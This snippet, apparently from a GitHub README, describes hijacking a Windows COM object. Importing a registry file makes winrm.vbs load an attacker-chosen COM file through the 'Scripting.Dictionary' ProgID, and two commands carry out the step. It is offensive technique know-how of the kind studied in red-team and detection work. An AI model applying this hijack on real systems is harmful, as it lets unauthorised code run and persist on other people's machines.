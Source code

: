 Here, we can use Winrm.vbs to hijack COM object by making "Scripting.Dictionary" invokes COM file in registry, Scripting.Dictionary is often refers to ProgID.


Instructions:

```

C:\>reg import "file.reg"
The operation completed successfully.

C:\>start C:\Windows\System32\winrm.vbs

C:\>
```


![21312313](https://user-images.githubusercontent.com/25440152/58567597-7876f080-81e7-11e9-971b-6362f2db1247.PNG)
